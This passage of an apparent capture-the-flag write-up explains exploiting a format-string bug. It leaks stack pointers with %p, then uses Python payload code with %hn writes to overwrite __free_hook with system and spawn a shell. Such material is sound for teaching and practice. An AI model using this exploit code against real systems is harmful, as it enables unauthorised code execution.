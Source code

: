The leaks are easy enough to achieve.
We can use `%p` to print pointers from the stack.
The `__libc_start_to_main` return address and saved RBP are useful in our case.

Once we have our leaks, we can set up our addresses for an arbitrary write.

```py
def write_on_stack(value, offset):
    for i in range(4):
        io.sendline("%{}c%13$hn".format((stack_addr_0 + 8 * (offset - 6) + 2 * i) % 0x10000).encode())
        io.recvline(1)

        chars = (value // (0x10000 ** i)) % 0x10000
        if chars == 0:
            io.sendline("%{}$hn".format(stack_offset).encode())
        else:
            io.sendline("%{}c%{}$hn".format(chars, stack_offset).encode())
        io.recvline(1)
```

Note that the program frees our string every time.
If we write the address of `system` to `__free_hook` and put `"/bin/sh"` in our string, we can make the
program spawn a shell instead of freeing this chunk.
To do so, we need to completely overwrite the hook in one iteration of the loop.
Otherwise, it will try to call an incomplete address and likely segfault.

```py
write_on_stack(libc.sym['__free_hook'], 8)
write_on_stack(libc.sym['__free_hook'] + 2, 9)
write_on_stack(libc.sym['__free_hook'] + 4, 10)
write_on_stack(libc.sym['__free_hook'] + 6, 11)
```

To write everything in one pass, we place 4 `__free_hook` addresses on the stack, each at a different
offset.
We can then use multiple `%n` conversion specifiers to write to all of these addresses.
It is important to keep track of how many characters have been written at each stage so we write the
correct values.

```py
chars = ((target % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%8$hn"

chars = (((target // 0x10000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%9$hn"

chars = (((target // 0x100000000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%10$hn"

chars = (((target // 0x1000000000000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%11$hn"
```
